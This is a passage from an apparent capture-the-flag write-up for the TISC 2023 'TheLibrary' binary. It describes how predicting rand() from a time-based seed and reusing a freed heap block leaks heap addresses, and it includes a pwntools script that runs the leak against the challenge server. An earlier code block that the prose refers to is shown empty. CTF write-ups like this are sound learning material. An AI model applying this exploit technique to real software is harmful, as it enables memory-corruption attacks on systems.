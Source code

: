 ```py
```

The above code block allows us to find the indexes of the duplicated values, which indicates the number of times we need to allocate memory in order to get allocated the same memory block 2 times. 

Afterwards, using the index values, we can allocate newspaper metadata to the first occurrence of the duplicate index, then free it so that there will be heap addresses left in the memory block. This allows us to be reallocated the same block of memory when we call set name and motto at the duplicate index, and leak the heap addresses.

After some testing, I ended up with this code block which managed to leak the heap address. 

```py
from pwn import *
import ctypes

libc = ctypes.CDLL("libc.so.6")

context.binary = elf = ELF("./TheLibrary.elf")
#p = process("./TheLibrary.elf")
p = remote("chals.tisc23.ctf.sg", 26195)

# try to get same seed as the program
libc.srand(libc.time(0))
predict_rand_arr = []
while True:
    predict_rand_arr.append(libc.rand() % 0x250)
    # keep getting rand values until we have duplicate values
    # so we can get two things to the same place
    if len(predict_rand_arr) > len(set(predict_rand_arr)):
        break

dup_val = predict_rand_arr[-1]

for i in range(len(predict_rand_arr) - 1):
    if predict_rand_arr[i] == dup_val:
        val_idx = i

dup_idx = len(predict_rand_arr) - 1

p.sendlineafter(b"characters): ", b"a")
p.sendlineafter(b"characters): ", b"b")

for i in range(val_idx):
    p.sendlineafter(b"choice: ", b"1")
    p.sendlineafter(b"characters): ", b"a")
    p.sendlineafter(b"characters): ", b"b")

# newspaper stand to put stuff on the metadata block
p.sendlineafter(b"choice: ", b"3")
p.sendlineafter(b"option: ", b"1")
p.sendlineafter(b"characters)\n", b"a")
p.sendlineafter(b"option: ", b"3")
p.sendlineafter(b"remove\n", b"0")
p.sendlineafter(b"option: ", b"5")

for i in range(dup_idx - val_idx - 2):
    p.sendlineafter(b"choice: ", b"1")
    p.sendlineafter(b"characters): ", b"a")
    p.sendlineafter(b"characters): ", b"b")

p.sendlineafter(b"choice: ", b"1")
p.sendlineafter(b"characters): ", b"a")
p.sendlineafter(b"characters): ", b"b")
p.recvuntil(b"Name]: ")
```